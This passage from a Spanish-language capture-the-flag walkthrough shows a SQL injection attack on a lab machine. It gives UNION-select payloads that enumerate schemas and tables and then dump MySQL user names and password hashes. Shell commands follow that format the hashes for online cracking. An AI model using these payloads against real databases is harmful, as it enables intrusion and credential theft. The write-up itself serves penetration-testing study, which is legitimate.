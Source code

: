 1. Enumeramos las tablas existentes de la base de datos

    ```bash
    [+] Payload : ' union select 1,2,group_concat(table_name),4,5,6 from information_schema.tables where table_schema="warehouse"-- -
    ```

    Vemos que hay una tabla product, product_category y product_pack. No parece que haya informacion relevante.

1. Enumerar las bases de datos del systema

    ```bash
    [+] Payload : ' union select 1,2,group_concat(schema_name),4,5,6 from information_schema.schemata-- -
    ```

    Hay 3 bases de datos information_schema, mysql y warehouse.

1. Enumeramos la base de datos mysql

    ```bash
    [+] Payload : ' union select 1,2,group_concat(table_name),4,5,6 from information_schema.tables where table_schema="mysql"-- -
    ```

    Hay muchas tablas y una es la tabla user

1. Enumeramos las columnas de la tabla user

    ```bash
    [+] Payload : ' union select 1,2,group_concat(column_name),4,5,6 from information_schema.columns where table_schema="mysql" and table_name="user"-- -
    ```

    Existe una columna user y una password

1. Accedemos a los usuarios y contraseñas de la base de datos

    ```bash
    [+] Payload : ' union select 1,2,group_concat(User,0x3a,Password),4,5,6 from mysql.user-- -
    ```

Copiamos los usuarios y la contraseñas en un fichero llamado hashes.

### Crackeamos las contraseñas con crackstation {-}

Tratamos las informaciones del fichero hash
 
```bash
cat hashes | tr ',' '\n' | sed 's/\*//g' | sort -u > hashes
cat hashes | awk '{print $2}' FS=":" | xclip -sel clip
```

Abrimos la web de [crackstation](https://crackstation.net/) y colamos los hashes. Encontramos las contraseñas de hector y de manager.

Aqui el problema es que no tenemos puertos que nos permite conectar a la maquina de manera directa. Tenemos que intentar otra cosa para 
poder ganar accesso al systema.
## Vuln exploit & Gaining Access {-}
